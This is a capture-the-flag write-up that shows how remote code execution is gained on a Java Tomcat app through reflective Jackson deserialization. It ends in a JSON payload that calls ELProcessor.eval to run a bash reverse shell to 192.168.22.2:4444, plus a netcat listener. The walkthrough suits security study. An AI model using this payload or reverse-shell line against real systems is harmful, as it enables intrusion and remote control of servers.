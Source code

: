 # Finals Challenge 3

The third challenge is to game remote code execution (RCE) on the server through exploiting a code vulnerable within the web application, in order to extract the file `/opt/tomcat/flag`.

### Trompoline Page
The challenge start with a webpage at `/v1/Trompoline`. This seems to be a static page with no functionality. Even the buttons have no backend actions. 

![](images/20230428133000.png)

Thus I shifted my attention to the source code, that was found in the previous challenge.

### Source Code
Extracting the `Trompoline.war` file, I get a java web application source code structure.

![](images/20230428135727.png)



![](images/20230428135905.png)

### Decompile Java Class
Using Intellij, I am able to decompile the java class files. This allows me to read the java code in a more readable format.

The application's code has 3 main packages: model, servlet and util.

![](images/20230428140431.png)

#### MainServlet
Within the servlet package, there is a `MainServlet` class. This handles a get request on endpoint `/MainServlet`. It does not have much functionality, except for responding with Hello World!

![](images/20230428140451.png)

![](images20230428144148.png)

#### MsgServlet
There is another class `MsgServlet` which handles a post request on endpoint `/MsgServlet`. This method in more interesting as there seems to be some data processing going on.

![](images/20230428140408.png)

By analysing the code, I can understand the payload structure required. It is a JSON object with 2 keys: `type` and `content`. 

##### Type

Next java reflection technique is used to dynamically get a class within the model package. The class name is based on the `type` key in the JSON payload. I also know that the class needs to be `BaseReq` or extend from `BaseReq`. To determine the correct `type` value, I need to look at the `model` package. 

![](images/20230428150245.png)

Within the models package, there is only 2 classes that fit the criteria: `BaseReq` and `TopoReqMsg`. 

![](images/20230428150442.png)

![](images/20230428150522.png)

Since `BaseReq` does not have any functionality, I can assume that the correct `type` value is `TopoReqMsg`.

##### Content
The `content` key is then used as deserialization data for the class specficied by the `type` key. This is done using the `Jackson` library. After the object is create, a method `call_dynamic` is invoked.

To understand what the `content` key should contain, I need to look at the `TopoReqMsg` class fields.

![](images/20230428151201.png)

There are 4 fields in the `TopoReqMsg` class: `data`, `className`, `methodName` and `isStatic`. Since the deserialize data is also a json, the general outline of the payload will be something like this:

```json
{
  "type": "TopoReqMsg",
  "content": "{\"isStatic\": \"\", \"className\": \"\", \"methodName\": \"\", \"data\": \"\"}"
}
```

##### call_dynamic
I also need to understand what the `call_dynamic` method does, and how the field are used within the method. 

![](images/20230428151723.png)

In summary, the `call_dynamic` method uses java reflection to dynamically invoke a method. The method is specified by the `className` and `methodName` fields. The `data` field is used as the method's parameter. The `isStatic` field is used to determine if the method is static or not.

There are some criteria that method must meet:
1. The method's class must have a empty public constructor unless the method is static.
2. The method must be public.
3. The method must have a single parameter of type `String`.

##### Finding appropriate RCE method
Since the challenge description states to get the file `/opt/tomcat/flag`, I need to find a method that can run shell commands for RCE.

Upon some research, I found that the `Runtime` class has a method `exec` that can run shell commands, and the reverse shell payload can be generated with website such as https://www.revshells.com. Thus the raw java code will be:

```java
Runtime.getRuntime().exec("bash -c $@|bash 0 echo bash -i >& /dev/tcp/192.168.22.2/4444 0>&1");
```

However, I realised it is not possible to use the `Runtime` class as it does not have a empty public constructor, the `getRuntime` method is required. Thus I need to find an alternative way.

Another potential way was find a single method that can run `String` as java code. This was when I notice there are other .jar dependencies in the `WEB-INF/lib` folder. I extracted them to view the classes.

![](images/20230428153716.png)

After some research, I found that `javax` dependency has a `ELProcessor` class, which contains a single method `eval`. This method can run `String` as java code. The `ELProcessor` class also has a empty public constructor, thus it can be used.

##### Final Payload
With the above information, I can construct the final payload. The `type` value will be `TopoReqMsg`. The `content` value will be a JSON object with the following fields:
- `isStatic`: `false`
- `className`: `javax.el.ELProcessor`
- `methodName`: `eval`
- `data`: `Runtime.getRuntime().exec("bash -c $@|bash 0 echo bash -i >& /dev/tcp/192.168.22.2/4444 0>&1")`

Below is the final JSON with proper string escaping and formatting.

```json
{
  "type": "TopoReqMsg",
  "content": "{\"isStatic\": \"false\", \"className\": \"javax.el.ELProcessor\", \"methodName\": \"eval\", \"data\": \"Runtime.getRuntime().exec(\\\"bash -c $@|bash 0 echo bash -i >& /dev/tcp/192.168.22.2/4444 0>&1\\\")\"}"
}
```

##### Exploit
Lastly, is just to setup a netcat listener and send the payload to the server.

Start netcat listener on your host (attacker) machine.
```bash
nc -lvnp 4444
```

![](images/20230428154206.png)

Send the payload to the server.

![](images/20230428154236.png)

The netcat listener will receive a connection from the server, and a shell will be spawned.

![](images/20230428154435.png)
